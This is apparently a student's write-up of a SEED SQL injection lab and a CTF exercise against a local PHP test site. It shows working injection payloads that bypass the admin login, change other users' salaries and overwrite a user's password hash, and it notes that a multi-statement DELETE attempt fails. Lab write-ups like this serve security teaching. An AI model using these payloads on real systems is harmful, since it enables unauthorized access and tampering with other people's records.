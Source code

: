 ## SETUP
- We need to add the line "10.9.0.5 ww.seed-server.com" inside the file /etc/hosts.<br>
- Afterwards we just need to build the container and run it.
- Now we need to find tge ID of the container with `dockps` and once we know the ID we run `docksh ID` to open a shell inside the container.

### Task 1
- On the containers shell we will start using all databases associated with the user root `mysql -u root -pdees`.
- Now that we're using mysql we'll need to load the sqllab_users database with `use sqllab_users`.
- To show the database we can run `show tables`.
- ![Task1](/Images/Week8/Task1.png "Task1")


### Task 2
#### 2.1
- In a browser we open www.seed-server.com and now we need to access the admin account.
- Inside the "unsafe home.php" file we could find a vulnerability in the way the query was made.
- Since we know the account name is "admin" we can use a very common sql injection `admin'-- ";`
- `admin` is the account name, `'` is used to end the input of that sql field, `-- ` will comment all sql code afterwards, `"` will end the string in php and `;` end the line in php.
- ![Task2-1-1](/Images/Week8/Task2-1-1.png "Task2-1-1")
- And the result is :
- ![Task2-1-2](/Images/Week8/Task2-1-2.png "Task2-1-2")

### 2.2

- We encoded the string `admin'-- "` in this website: https://www.urlencoder.org
- After that, we sent the command `curl 'www.seed-server.com/unsafe_home.php?username=admin%27--%20%22%3B&Password=11'` in the terminal.
- By doing that, we got access to the content.
- ![task2-2](/Images/Week8/task2-2.png "task2-2")



#### 2.3
- In the username field we inserted the following command `admin'; DELETE FROM credential WHERE name='Alice' ";#`
- We realized that, eventhough the syntax was correct, the following error was always present:
- ![task2-3-1](/Images/Week8/task2-3-1.png "task2-3-1")

- In kind of injection doesn't work since the API used in the .php file is my `mysqli`. The `querry` command only allows single querries.

- ![task2-3-2](/Images/Week8/task2-3-2.png "task2-3-2")


### Task 3
#### 3.1
- We inserted the command `9111', salary=50000 WHERE Name='Alice';-- ";` in the phone number section of the edit profile.
- ![task3-1-init](/Images/Week8/task3-1-init.png "task3-1-init")
- After that, we can verify Alice's salary has changed.
- ![task3-1](/Images/Week8/task3-1.png "task3-1")

### 3.2

- This task was almost equal to the previous one. The only thing that changed was the `Name=Boby`.

- The new command is `9111', salary=50000 WHERE Name='Boby';-- ";`

- After that, we can verify Boby's salary has changed.
- ![task3-2](/Images/Week8/task3-2.png "task3-2")

### 3.3

- The passwords on this server are encrypted via SHA1

- We altered Boby's password to `7110eda4d09e062aa5e4a390b0a572ac0d2c0220`, which is the equivalent of `SHA1('1234')`.

- We used this command in the Phone number field: `9111', password='7110eda4d09e062aa5e4a390b0a572ac0d2c0220' WHERE Name='Boby';-- ";`

- ![task3-3-1](/Images/Week8/task3-3-1.png "task3-3-1")

- After that, we just logged out and logged in introducting the username `Boby` and the password `1234`.

- ![task3-3-2](/Images/Week8/task3-3-2.png "task3-3-2")

- Finally, we have access to Boby's profile

- ![task3-3-3](/Images/Week8/task3-3-3.png "task3-3-3")


## CTF 1
- Since we have access to the file index.php it's easier to notice the vulnerability inside the login query and try to control it.
- As done in the lab we'll use the `admin';--` as the username inside the website.
- `admin` is the account name, `'` is used to end the input of that sql field, `;` ends the line in php, `-- ` will comment all sql code afterwards.
- ![CTF8.1](/Images/Week8/CTF8.1.png "CTF8.1")
- And so we have the flag.

